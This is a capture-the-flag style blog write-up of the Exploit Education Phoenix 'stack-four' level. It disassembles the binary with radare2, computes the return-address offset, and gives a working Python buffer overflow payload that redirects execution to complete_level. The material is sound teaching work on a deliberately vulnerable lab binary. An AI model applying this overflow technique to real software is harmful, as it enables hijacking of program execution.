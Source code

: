 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Four"
date: "2019-10-13 11:30:00 +0300"
categories: exploit-education phoenix x86
---
```


{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-four 
arch     x86
baddr    0x8048000
binsz    3608
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Same info as the previous levels.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-four 
{% endhighlight %}

{% highlight nasm %}
[0x08048350]> aas
Cannot analyze at 0x080485b0
[0x08048350]> afl
0x080482d8    1 17           sym._init
0x080484a0    7 277  -> 112  sym.frame_dummy
0x08048570    5 49           sym.__do_global_ctors_aux
0x080485a1    1 12           sym._fini
0x08048420    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 492  -> 538  sym..interp
0x08048350    1 62           entry0
0x08048340    1 6            sym.imp.__libc_start_main
0x0804865c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048688    3 34           sym..eh_frame
0x080486c4    1 9            obj.__EH_FRAME_BEGIN
0x08048390    4 49   -> 40   sym.deregister_tm_clones
0x0804872c    1 4            obj.__FRAME_END
0x08048505    1 49           sym.start_level
0x08048310    1 6            sym.imp.gets
0x08048300    1 6            sym.imp.printf
0x08048536    1 51           main
0x08048320    1 6            sym.imp.puts
0x080484e5    1 32           sym.complete_level
0x08048330    1 6            sym.imp.exit
[0x08048350]> s main
[0x08048536]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048384
|           0x08048536      8d4c2404       lea ecx, [arg_4h]
|           0x0804853a      83e4f0         and esp, 0xfffffff0
|           0x0804853d      ff71fc         push dword [ecx - 4]
|           0x08048540      55             push ebp
|           0x08048541      89e5           mov ebp, esp
|           0x08048543      51             push ecx
|           0x08048544      83ec04         sub esp, 4
|           0x08048547      83ec0c         sub esp, 0xc
|           0x0804854a      6810860408     push str.Welcome_to_phoenix_stack_four__brought_to_you_by_https:__exploit.education ; 0x8048610 ; "Welcome to phoenix/stack-four, brought to you by https://exploit.education"
|           0x0804854f      e8ccfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048554      83c410         add esp, 0x10
|           0x08048557      e8a9ffffff     call sym.start_level
|           0x0804855c      b800000000     mov eax, 0
|           0x08048561      8b4dfc         mov ecx, dword [var_4h]
|           0x08048564      c9             leave
|           0x08048565      8d61fc         lea esp, [ecx - 4]
\           0x08048568      c3             ret
[0x08048536]> s sym.start_level
[0x08048505]> pdf
/ (fcn) sym.start_level 49
|   sym.start_level (int32_t arg_4h);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ ebp+0x4
|           ; CALL XREF from main @ 0x8048557
|           0x08048505      55             push ebp
|           0x08048506      89e5           mov ebp, esp
|           0x08048508      83ec58         sub esp, 0x58
|           0x0804850b      83ec0c         sub esp, 0xc
|           0x0804850e      8d45b4         lea eax, [var_4ch]
|           0x08048511      50             push eax
|           0x08048512      e8f9fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048517      83c410         add esp, 0x10
|           0x0804851a      8b4504         mov eax, dword [arg_4h]
|           0x0804851d      8945f4         mov dword [var_ch], eax
|           0x08048520      83ec08         sub esp, 8
|           0x08048523      ff75f4         push dword [var_ch]
|           0x08048526      68f3850408     push str.and_will_be_returning_to__p ; 0x80485f3 ; "and will be returning to %p\n"
|           0x0804852b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048530      83c410         add esp, 0x10
|           0x08048533      90             nop
|           0x08048534      c9             leave
\           0x08048535      c3             ret
[0x08048505]> 
{% endhighlight %}

There is a vulnerable `gets` call in the function `sym.start_level`. The objective seems to be to overwrite the return address of that function to return to the function `sym.complete_level` at address `0x080484e5`.

In order to do that, it is essential to calculate the number of bytes that need to be written on the stack to overwrite the return address.

There are a couple of ways:
* use `ragg2` to generate a cyclic pattern, called De Bruijn Sequence, and check the exact offset where the payload overrides the return address.
* calculate it manually.

For the first option:

{% highlight shell %}
$ ragg2 -P 200 -r > pattern
{% endhighlight %}

The argument `-P` prepends a De Bruijn Sequence with a size of 200. The argument `-r` shows raw bytes instead of hexpairs.

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f3ed4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41416241
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41416241 code=1 ret=0
[0x41416241]> wopO 0x41416241
80
{% endhighlight %}

*Replace the address that follows `wopO` with the value of the `eip` register.*

The result of the last operation is the offset that is needed to reach the return address, but not overwrite it.

With the second option, viewing the local variables is enough. The buffer starts at `ebp-0x4c`, which means that to reach `ebp` a size of 76 bytes is needed. Adding another 4 bytes overwrites the old `ebp` value that is on the stack and adding 4 bytes again means overwriting the return address.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*80 + b'\xe5\x84\x04\x08')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7fb8d4b]> aas
Cannot analyze at 0x080485b0
[0xf7fb8d4b]> db 0x08048512
[0xf7fb8d4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
hit breakpoint at: 8048512
[0x08048512]> dr
eax = 0xfff94b5c
ebx = 0xf7fee000
ecx = 0xfff94af0
edx = 0x00000000
esi = 0xfff94c44
edi = 0x00000001
esp = 0xfff94b40
ebp = 0xfff94ba8
eip = 0x08048512
eflags = 0x00000296
oeax = 0xffffffff
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x0000000a  ....oK..........
0xfff94b60  0x08048610 0x080485a1 0x00000000 0x0afaa038  ............8...
0xfff94b70  0xf7fa8a5b 0xf7fee000 0xf7fee1e0 0xf7fab958  [...........X...
0xfff94b80  0xf7fee1e0 0x0000000a 0x00000000 0x00000000  ................
0xfff94b90  0xf7fee000 0xfff94c44 0x00000001 0x08048554  ....DL......T...
0xfff94ba0  0x08048610 0x00000000 0xfff94bb8 0x0804855c  .........K..\...
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x0804855c                                   \...
[0x08048512]> dso
hit breakpoint at: 8048517
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x58585858  ....oK......XXXX
0xfff94b60  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94ba0  0x58585858 0x58585858 0x58585858 0x080484e5  XXXXXXXXXXXX....
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x080484e5                                   ....
[0x08048512]> dc
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
{% endhighlight %}

## Conclusion
This level introduced a case where an attacker can control the execution of the program by simply writing more bytes than the buffer can hold, so that the return address of the function that contains the vulnerable `gets` call is overwritten.
